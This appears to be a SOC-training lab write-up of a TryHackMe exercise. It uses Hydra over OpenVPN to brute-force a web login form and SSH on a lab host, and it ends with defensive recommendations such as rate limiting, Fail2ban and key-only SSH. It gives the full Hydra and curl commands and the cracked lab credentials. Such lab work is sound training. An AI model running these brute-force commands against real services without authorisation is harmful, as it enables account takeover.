






# Exercise 13 — Hydra Brute Force Attack: Web Form & SSH

**Date:** 22/03/2026
**Category:** SOC Analysis / Attack Detection
**Tools:** Hydra, OpenVPN
**Attacker:** Kali Linux (NAT — TryHackMe VPN)
**Target:** TryHackMe — 10.64.181.53

---

## Objective
Use Hydra to brute force credentials against two services on a remote TryHackMe target — an HTTP POST login form and SSH — connecting via OpenVPN from the local Kali VM rather than the platform's built-in AttackBox.

---

## Background
Brute force attacks are among the most common credential-based attack techniques observed in real-world incidents. Tools like Hydra automate the process of systematically testing username/password combinations against authentication services.

This exercise covers two distinct attack surfaces:
- **HTTP POST form** — web application login pages are a frequent target, requiring knowledge of the form structure and failure response string to configure the attack correctly
- **SSH** — remote access protocol targeted constantly on internet-exposed systems

This exercise also introduces connecting to an external private lab environment via OpenVPN — a practical skill for TryHackMe, HackTheBox, and real-world VPN-based corporate environments.

---

## Part A — VPN Setup & Target Access

TryHackMe target machines run on a private internal network — the machine IP is not reachable from the public internet. OpenVPN creates a tunnel from Kali into TryHackMe's network, making the target reachable directly from the local VM.

Before connecting, the Kali VM network adapter was changed from **Host-Only to NAT** in VirtualBox to allow internet access through the host machine. This temporarily disconnects Kali from the home lab — the adapter is switched back to Host-Only afterwards.

VPN config downloaded from TryHackMe → Access, then connected:
```bash
sudo openvpn ~/Downloads/your-config.ovpn
```

Verified in a second terminal tab:
```bash
ip a
```

### Screenshot — OpenVPN Config Download from TryHackMe


### Screenshot — tun0 Interface Confirmed


The `tun0` interface confirms the tunnel is active and the target is reachable.

---

## Part B — Web Form Brute Force

**Target:** `http://10.64.181.53/login`
**Username:** molly

Hydra's `http-post-form` module handles POST-based login forms. Three pieces of information are required: the login page path, the form field names, and a string that appears in the server response on a failed login.

**Form field names** identified via page source:
```html
<input type="text" name="username">
<input type="password" name="password">
```

**Failure string and login path** confirmed via curl:
```bash
curl -s -X POST http://10.64.181.53/login -d "username=molly&password=wrongpassword" | grep -i "incorrect\|invalid\|wrong\|error"
```

Response: `Your username or password is incorrect.`

Note: the login path needed to be `/login` — an early attempt using `/` returned `Cannot POST /`, confirming Hydra must be pointed at the exact form endpoint.

**Hydra command:**
```bash
hydra -l molly -P /tmp/molly.txt 10.64.181.53 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -t 16 -I
```

| Flag | Meaning |
|---|---|
| `-l molly` | Single target username |
| `-P /tmp/molly.txt` | Wordlist of candidate passwords |
| `http-post-form` | Protocol module — POST form submission |
| `/login` | Path to the login endpoint |
| `^USER^` / `^PASS^` | Placeholders replaced with each attempt |
| `F=incorrect` | Failure string — response containing this = failed login |
| `-t 16` | 16 parallel threads |
| `-I` | Skip restore file from previous session |

**Result: `login: molly   password: sunshine`**

### Screenshot — Web Form Password Found


Logged into `http://10.64.181.53/login` with `molly:sunshine` to retrieve flag 1.

### Screenshot — Flag 1 Retrieved


---

## Part C — SSH Brute Force

**Target:** `10.64.181.53:22`
**Username:** molly

The SSH password was different from the web password — a real-world scenario where services have independent credentials.
```bash
hydra -l molly -P /tmp/molly-ssh.txt 10.64.181.53 -t 4 ssh -I
```

| Flag | Meaning |
|---|---|
| `-l molly` | Single target username |
| `-P /tmp/molly-ssh.txt` | Targeted wordlist |
| `-t 4` | 4 threads — SSH is sensitive to high parallelism |
| `ssh` | Protocol module |
| `-I` | Skip restore file |

**Result: `login: molly   password: butterfly`**

### Screenshot — SSH Password Cracked


SSH session opened and flag 2 retrieved:
```bash
ssh molly@10.64.181.53
cat flag2.txt
```

### Screenshot — Flag 2 Retrieved


---

## Attack Chain Summary
```
Hydra sends rapid POST requests to /login with candidate passwords
    → Failure string "incorrect" identifies failed attempts
        → Password "sunshine" found — flag 1 retrieved via browser

Hydra tests candidate passwords against SSH port 22
    → Password "butterfly" found — different credential to web
        → SSH session opened — flag 2 retrieved
```

---

## Real-World Relevance

**Web form brute force** is extremely common against exposed admin panels, CMS logins (WordPress, Joomla), and VPN portals. SOC analysts should monitor for high-frequency POST requests to login endpoints from a single source IP.

**SSH brute force** is one of the most prevalent attack types on internet-facing Linux servers. Any SSH service exposed to the internet will attract automated brute force attempts within hours of deployment.

**Different passwords per service** is a realistic attacker scenario — credential reuse assumptions can miss lateral movement when services have independent credentials, requiring separate brute force attempts per service.

**VPN-based lab access** mirrors how analysts connect to client environments, cloud infrastructure, and remote lab environments in professional settings.

---

## Recommendation
- Implement rate limiting and account lockout after 3–5 failed attempts on both web forms and SSH — would have stopped this attack within seconds
- Deploy Fail2ban on any internet-facing Linux host — automatically bans source IPs after repeated SSH failures and is considered industry standard
- Disable SSH password authentication entirely and enforce key-based authentication only
- Deploy a Web Application Firewall to detect and block rapid sequential POST requests to login endpoints
- Monitor `/var/log/auth.log` on Linux hosts and web server access logs for authentication failure spikes — a Splunk alert threshold of >5 failures per minute is a practical starting point
```
